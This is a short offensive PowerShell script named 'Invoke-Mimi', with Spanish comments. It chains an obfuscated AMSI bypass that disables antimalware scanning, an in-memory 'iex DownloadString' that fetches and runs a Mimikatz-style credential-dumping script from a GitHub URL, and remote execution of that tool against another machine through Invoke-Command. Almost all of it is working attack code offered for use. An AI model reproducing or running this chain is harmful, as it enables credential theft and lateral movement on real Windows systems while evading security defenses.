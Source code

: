 # Invoke-Mimi
#By Luis Carreto

#Evasion de AMSI

$A="5492868772801748688168747280728187173688878280688776828"
$B="1173680867656877679866880867644817687416876797271"
[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " " ).GetField([string](38..51|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " ",'NonPublic,Static')."sE`T`VaLUE"(         ${n`ULl},${t`RuE} )

#Ejecucion en memoria

iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dr0pc/Invoke-Mimi/main/Invoke-Mimi.ps1')


#Ejecucion remota por PSSession

Invoke-Command -ScriptBlock  {AmsiBypass} ; & ${function:invoke-mimi} -ComputerName computer-name
